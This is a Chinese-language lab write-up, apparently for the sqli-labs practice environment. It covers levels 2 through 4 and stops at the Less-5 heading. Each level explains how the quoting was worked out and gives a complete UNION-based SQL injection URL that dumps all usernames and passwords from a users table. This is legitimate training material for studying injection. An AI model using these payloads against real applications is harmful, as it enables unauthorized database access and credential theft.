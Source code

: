 ## Less-2

### 分析

输入 `1'`,报错附近语句为 `' LIMIT 0,1`；输入 `1' and '1'='1`，报错附近语句为 `' and '1'='1 LIMIT 0,1`。单引号无法闭合，因此判断为整数型注入。

猜测原语句为 `id=$id`

### 利用方法

整数型注入不需要考虑单引号拼接问题，直接拼接语句

### 注入结果

使用语句 `http://192.168.130.128:8080/Less-2/?id=-1 union select 1,(select group_concat(username) from security.users),(select group_concat(password) from security.users)`爆出所有用户信息

## Less-3

### 分析

使用 `1'`，报错附近语句为 `'1'') LIMIT 0,1`；

猜测原语句为 `(id='$id')`或 `id=('$id')`，存在字符型注入。

### 利用方法

总之考虑单引号和括号的闭合

### 注入结果

直接注释版 `http://192.168.130.128:8080/Less-3/?id=-1') union select 1,(select group_concat(username) from security.users),(select group_concat(password) from security.users) --%20`

## Less-4

### 分析

输入 `1'`显示正常，输入 `1"`报错，错误附近语句为 `"1"") LIMIT 0,1`；

猜测原语句为 `id=("$id")`，存在字符型注入

### 注入结果

直接注释版 `http://192.168.130.128:8080/Less-4/?id=-1") union select 1,(select group_concat(username) from security.users),(select group_concat(password) from security.users) --%20`

## Less-5

### 分析

